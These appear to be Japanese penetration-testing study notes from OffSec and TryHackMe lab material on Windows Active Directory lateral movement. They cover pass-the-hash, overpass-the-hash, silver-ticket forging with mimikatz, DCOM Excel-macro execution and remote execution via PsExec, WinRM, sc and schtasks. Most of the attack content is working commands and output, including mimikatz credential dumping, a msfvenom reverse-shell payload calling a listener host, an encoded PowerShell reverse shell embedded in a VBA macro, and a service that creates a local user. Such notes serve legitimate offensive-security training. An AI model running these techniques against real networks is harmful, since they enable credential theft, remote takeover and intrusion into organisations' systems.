


### Pass the Hash

* Kerberos 認証では動作せず、NTLM 認証を用いたサーバやサービスでのみ動作する。

* ファイアウォールを介したSMB接続（通常はポート445）と、Windowsのファイルおよびプリント共有機能が有効であることが必要

* (Metasploit, 2017), https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/ [↩︎](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/active-directory-attacks/active-directory-lateral-movement/pass-the-hash#fnref1)

  (@byt3bl33d3r, 2015), https://github.com/byt3bl33d3r/pth-toolkit [↩︎](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/active-directory-attacks/active-directory-lateral-movement/pass-the-hash#fnref2)

  (Core Security, 2017), https://github.com/CoreSecurity/impacket/blob/master/examples/smbclient.py 

* 管理共有(445)が有効であることの確認（windows clientの場合)

  ```cmd
  net share
  ```

* #### pth-winexe(kaliから横展開)

  ```bash
  └─$ pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //192.168.151.1 cmd
  E_md4hash wrapper called.
  HASH PASS: Substituting user supplied NTLM HASH...
  Microsoft Windows [Version 10.0.16299.15]
  (c) 2017 Microsoft Corporation. All rights reserved.
  
  C:\Windows\system32>whoami
  whoami
  client251\administrator
  ```

  https://yougottahackthat.com/blog/339/what-is-aad3b435b51404eeaad3b435b51404ee

  ※Active Directoryのドメインアカウントと組み込みのローカル管理者アカウントに有効です。2014年のセキュリティアップデート7以降、この手法は他のローカル管理者アカウントとして認証するために使用することはできない

* ### evil-winrm

  ```
  evil-winrm -i 192.168.158.57 -u Administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0 
  ```

* ### impacket-psexec

  ```
  impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:8c802621d2e36fc074345dded890f3e5 Administrator@192.168.158.57
  ```

* ### RDP

  ```
  xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
  ```

  ```
  rdesktop -g 90% -d EXAM -u ted -p avatar123 192.168.131.171
  ```


### Overthehash

NTLM ハッシュを Kerberos チケットに変換し、NTLM 認証を使用しないようにしてTGTやTGSを取得する

* キャッシュにクレデンシャルを残す

  * mimikatzを起動しておく

  * notepadを起動しキャッシュを残したいユーザで実行する

    * notepadをoffsecで普通に開く

    * 上の画像のようにピンバーを右クリックし、Notepadをshift+右クリックで選択し「Run as a different User」を選択し

      ```
      corp\jeff_admin
      lab
      ```

      でnotepadを開く

    * mimikatzでクレデンシャルをダンプする

      ```
      sekurlsa::logonpasswords
      ```

* mimikatzでover the hashする

  powershellを起動する

  ```
  sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:2892d26cdf84d7a70e2eb3b9f05c425e /run:PowerShell.exe
  ```

* Kerberosチケットを確認する（この時点ではなし）

  ```powershell
  PS C:\Windows\system32> klist
  Current LogonId is 0:0x186536
  Cached Tickets: (0)
  ```

* ドメインコントローラ上のネットワーク共有に接続してTGTを生成する

  （TGTを生成するコマンドであれば任意だが、ここではネットワーク共有への接続を紹介していた）

  ```
  net use \\dc01
  klist
  ```

  TGTとTGSが登録される

* PsExecで横展開する

  ※PsExecはリモートでコマンドを実行できるが、パスワードハッシュを受け入れない

  ```powershell
  .\PsExec.exe \\dc01 cmd.exe
  ipconfig
  whoami
  ```


※Over the HashもAdmin$という特別な管理者共有へのアクセスが必要なため、ターゲットマシンのローカル管理者権限が必要となる


### Pass the Ticket

TGT は作成されたマシンでしか使用できないが、TGS はネットワーク上の他の場所にエクスポートして再投入し、特定のサービスへの認証に使用することができる

サービスアカウントのパスワードを利用してサービスチケットを偽造する→シルバーチケット

サービスプリンシパル名が複数のサーバで使用されている場合、シルバーチケットはそれら全てに対して活用することが可能

#### SID構造

```
S-R-I-S
```

R：リビジョンレベル（通常 "1 "に設定）

I：識別子-権限値（AD内では "5 "が多い）

S：サブ権限値

```
S-1-5-21-2536614405-3629634762-1218571035-1116
```

サブ権限の値は

* ドメインの数値識別子：21-2536614405-3629634762-1218571035
* ドメイン内の特定のオブジェクトを表す相対識別子：1116

に分かれる

#### SIDの取得

```cmd
whoami /user

---
C:\Windows\system32>whoami /user

USER INFORMATION
----------------

User Name   SID
=========== ==============================================
corp\offsec S-1-5-21-4038953314-3014849035-1274281563-1103
```

#### サービスアカウントのパスワードハッシュの取得

シルバーチケットに必要となる。kerberousでiis_serverのパスワードは取得済の前提

```cmd
kerberos::hash /user:iis_service /domain:corp.com /password:Qwerty09!

----
mimikatz # kerberos::hash /user:iis_service /domain:corp.com /password:Qwerty09!
        * rc4_hmac_nt       e2b475c11da2a0748290d87aa966c327
        * aes128_hmac       7eabd29e56e7e8a31b1c180b88e7b801
        * aes256_hmac 
```

#### シルバーチケットの取得

```cmd
# チケットを一度削除
kerberos::purge
kerberos::list

kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-4038953314-3014849035-1274281563 /target:CorpWebServer.corp.com /service:HTTP /rc4:e2b475c11da2a0748290d87aa966c327 /ptt
```

* `kerberos::golden`：名前がゴールドだがシルバー
* /sid：ユーザのSID
* /target：サービスの完全修飾ホスト名
* /service：サービスタイプ
* /rc4：is_serviceサービスアカウントのパスワードハッシュ


### DCOM(Distributed Component Object Model)

ネットワーク上の複数のコンピュータ間の相互作用のためにDCOM（Distributed Component Object Model）へと拡張

 DCOM とのやりとりは、TCP 135 番ポートの RPC で行われる

API である DCOM サービスコントロールマネージャを呼び出すには、ローカル管理者のアクセス権が必要

* オブジェクトのインスタンスを作成

  ```powershell
  $com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "172.16.129.5"))
  
  $com | Get-Member
  ```

* RUNメソッドがあることを確認する

  

* Excelでマクロを作成する

  ```vbscript
  Sub mymacro()
      Shell ("notepad.exe")
  End Sub
  ```

* プロファイルの要件を満たすデスクトップフォルダを作成

  ```powershell
  $Path = "\\172.16.135.5\c$\Windows\sysWOW64\config\systemprofile\Desktop"
  
  $temp = [system.io.directory]::createDirectory($Path)
  ```

* リモートにexcelファイルをコピーし実行する

  ```powershell
  $com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "172.16.135.5"))
  
  $LocalPath = "C:\Users\jeff_admin\myexcel.xls"
  
  $RemotePath = "\\172.16.135.5\c$\myexcel.xls"
  
  [System.IO.File]::Copy($LocalPath, $RemotePath, $True)
  
  $temp = [system.io.directory]::createDirectory($Path)
  
  $Workbook = $com.Workbooks.Open("C:\myexcel.xls")
  
  $com.Run("mymacro")
  ```

* リバースシェル版でマクロを再作成する

  ```
  msfvenom -p windows/shell_reverse_tcp LHOST=172.16.135.10 LPORT=4444 -f hta-psh -o evil.hta
  ```

  pythonで文字列分割する(python.mdを参照)

  ```
  Sub mymacro()
      
      Dim Str As String
      Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
      Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
      Str = Str + "kAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnA"
      Str = Str + "H0AZQBsAHMAZQB7ACQAYgA9ACQAZQBuAHYAOgB3AGkAbgBkAGk"
      Str = Str + "AcgArACcAXABzAHkAcwB3AG8AdwA2ADQAXABXAGkAbgBkAG8Ad"
   
      Str = Str + "HQAeQBsAGUAPQAnAEgAaQBkAGQAZQBuACcAOwAkAHMALgBDAHI"
      Str = Str + "AZQBhAHQAZQBOAG8AVwBpAG4AZABvAHcAPQAkAHQAcgB1AGUAO"
      Str = Str + "wAkAHAAPQBbAFMAeQBzAHQAZQBtAC4ARABpAGEAZwBuAG8AcwB"
      Str = Str + "0AGkAYwBzAC4AUAByAG8AYwBlAHMAcwBdADoAOgBTAHQAYQByA"
      Str = Str + "HQAKAAkAHMAKQA7AA=="
      
      Shell (Str)
  End Sub
  ```

* ネットキャットで待機し、リモートにファイルコピーして改めてマクロを実行する

  ```cmd
  PS C:\Tools\practical_tools> nc.exe -lvnp 4444
  ```


### パスワードでの横展開（windows clientから）

#### PsExec

* Ports: 445/TCP(SMB)
* Required Group Memberships：Administrators

```
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```


#### Remote Process Creation Using WinRM

- **Ports:** 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Remote Management Users

Powershellコマンドをリモートホストに送るためのツール。Windowsにデフォルトでダウンロードされていることが多い。

```
winrs.exe -u:Administrator -p:Mypass123 -r:target cmd
```

Powershellでも同様のことができるが、新しいPSCredential Objectを作成する必要がある

```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

以下コマンドでPSSessionを作成する

```powershell
Enter-PSSession -Computername TARGET -Credential $credential
```

スクリプトを実行するための以下のようなコマンドもある

```powershell
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
```

#### 

#### Remotely Creating Services Using sc

- Ports:
  - 135/TCP, 49152-65535/TCP (DCE/RPC)
  - 445/TCP (RPC over SMB Named Pipes)
  - 139/TCP (RPC over SMB Named Pipes) SMB over NetBIOS
- **Required Group Memberships:** Administrators

SVCCTL：Service Control Manager
EPM：Endpoint Mapper

1. port135のEPMにつなぐ、EPMがSVCCTLにアクセスするためのIPアドレスとポート番号を通知する。このポートには通常49152-65535のダイナミックポートが使われる。

   

2. もしRPCでの接続が失敗したらSMBパイプで接続を試みる(port 445 / port139)



`THMservice`を作って実行するコマンド

```cmd
sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET start THMservice
```

"net user"コマンドがサービスがスタートすると実行され、新しいローカルユーザが作成される。
コマンド出力を確認することはできない。

サービスを止めて削除するコマンド

```cmd
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
```

#### Creating Scheduled Tasks Remotely

schtasksを作成する。THMtask1を作成するコマンド

```cmd
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s TARGET /run /TN "THMtask1" 
```

/sc ONCE：特定の時間に一回のみ実施する

これも標準出力結果を見ることはできない

削除するコマンド

```cmd
schtasks /S TARGET /TN "THMtask1" /DELETE /F
```

#### 
